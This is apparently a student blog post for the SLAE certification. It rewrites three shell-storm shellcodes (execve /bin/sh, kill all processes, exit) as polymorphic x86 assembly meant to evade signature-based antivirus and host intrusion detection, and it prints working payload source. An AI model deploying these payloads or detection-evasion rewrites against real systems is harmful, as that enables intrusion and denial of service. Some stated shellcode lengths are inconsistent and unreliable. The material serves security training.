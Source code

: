 The 6th assignment for the SLAE certification, is to take 3 samples from the [shell-storm](http://shell-storm.org/shellcode/) database, and create polymorphic shellcodes of them. The shellcode on it's own directly from the webiste will more than likely get detected by any AV or HIDS device, that's where this assignment comes in. If we were to change the way that the shellcode operates, but keep it's core function, we can try and bypass any of those signature based detectors.

Let's jump into the samples!


x86 Linux execve(/bin/sh)
-------------------------

Let's take a look at the original shellcode.

- Shellcode Length:  28


```nasm
global _start

section .text

_start:

	xor eax, eax
	push eax
	push 0x68732f2f
	push 0x6e69622f
	mov ebx, esp
	mov ecx, eax
	mov edx, eax
	mov al, 0xb
	int 0x80
	xor eax, eax
	inc eax
	int 0x80
```

Pretty simple shellcode, so I will not go into too much detail on how it works. Plenty of stuff we have seen before, pushing `dword`'s onto the stack for `/bin//sh', setting the `syscall` value. This shellcode, weirdly, zeroes out the other main registers without really using them. This may be some sort of obfuscation to hide the real operations within the noise, but for our polymorphic shellcode, we will not be doing that.

Let's see the updated, polymorphic shellcode.

- Shellcode Length:  23

```nasm
; Author: Anubis
; SLAE

global _start

section .text

_start:

	xor ebx, ebx ; Used ebx instead of eax
	push ebx
	push 0x68732f2f
	push 0x6e69622f
	mov ebx, esp ; After this line, no need to zero out any othe registers
	mov al, 11 ; Ascii number instead of hex
	int 0x80
	mov al, 1
	int 0x80
```

We can go through some of the major points, but the comments speak for themselves for the most part.

We used `EBX` instead of `EAX`, pushed the same `dword`'s, got rid of the `XOR`'s that weren't necessary, and used the decimal value for the `syscall` rather than the hex.



Kill All Processes
------------------

This was a really fun shellcode to play with. It does just as it says and makes everything stop and brings you back to the log in screen. I have to say, I was impressed by how Ubuntu handled this kind of kill spree!

Let's take a look at the original shellcode.


- Shellcode Length:  11


```nasm
global _start

section .text

_start:

	push 37
	pop eax
	push byte -1
	pop ebx
	push byte 9
	pop ecx
	int 0x80
```

This is a really simple shellcode (another reason why I enjoyed re-writing it) that doesn't require a lot. It puts the `syscall` value onto the stack, puts it into `EAX`; puts `-1` onto the stack and puts it into `EBX`; then puts `9` onto the stack and then puts it into `ECX`. 

Let's now take a look at how I changed this up a bit.


Shellcode Length:  3

```nasm
global _start

section .text

_start:

	mov al, 37 ; Load syscall straight into al
	mov ebx, 0 ; Set EBX to 0
	sub ebx, 1 ; Make EBX -1
	mov ecx, 9 
	int 0x80
```

So the first thing that might stick out is the shellcode length. It says `3`. The shellcode does contain some nulls in it, which I thought would pose an issue, but after putting the shellcode into the binary and executing it, it worked just as it did with the original! It did take a few seconds longer to actually kill everything, so that is one drawback and could be refined if I had more time...


Anyway, let's get into the explanation. We first but the `syscall` value straight into `al`, rather than putting onto the stack and then `POP`ing it into `EAX`. Then we set `EBX` to `0`, and the do the `sub` command to `EBX` in order to get the value of `-1`. Then, just load `9` straight into `ECX`. 

And this executes with all the hilarity of the original! Onto the last sample.


Exit Shellcode
--------------

I thought this would be an interesting one to tackle since it doesn't have any malicous effects and is pretty simple. Let's start by looking at the original shellcode.


- Shellcode Length:  3

```nasm
global _start

section .text

_start:

	inc eax
	mov ebx, 23
	int 0x80
```


Very very simple stuff. Just loads `1` into `EAX` and then an arbitrary number into `EBX`. This arbitrary number will be what the exit value returns. Let's quickly run this binary to see how it works.


```sh
anubis@slae:~/SLAE/Assignment_6/exit_shellcode$ ./exit
anubis@slae:~/SLAE/Assignment_6/exit_shellcode$ echo $?
23
anubis@slae:~/SLAE/Assignment_6/exit_shellcode$
```

As you can see, it runs with no output but, examining the return value shows that `23` was loaded and returned.

Let's see how we can change this. Here is the updated shellcode.

- Shellcode Length:  2

```nasm
global _start

section .text

_start:

	mov eax, 222 ; Random number into EAX
	push 222 ; Random number onto stack
	sub eax, 220 ; Make EAX 2
	pop ebx ; Put random number from stack to EBX
	sub eax, 1 ; Make EAX 1
	int 0x80 ; Execute
```

So for this one, due to it's simplicity, I had to get a bit creative.

I first loaded a random number into `EAX`. Then I put the same random number onto the stack. Following that, I subtracted `220` from `222` to make `EAX` equal `2`. Then I took the `222` from the stack and put it into `EBX`. Then subtracting `1` from `EAX` then creates the syscall value for `exit`. When we execute this, it should return the value `222`. Let's see this in action.

```sh
anubis@slae:~/SLAE/Assignment_6/exit_shellcode$ ./exit_new 
anubis@slae:~/SLAE/Assignment_6/exit_shellcode$ echo $?
222
anubis@slae:~/SLAE/Assignment_6/exit_shellcode$
```

Perfect! It works! And we have created a lot of hoops to make any detection a bit harder.


And that is all of them. The next post will be the last one for the SLAE! See you then!


<hr />

This blog post was created as per the requirements of the Security Tube Linux Assembly Expert certification.

Student ID: SLAE-1406

Please see [https://github.com/AnubisSec/SLAE](https://github.com/AnubisSec/SLAE) for all the source files mentioned on this site.
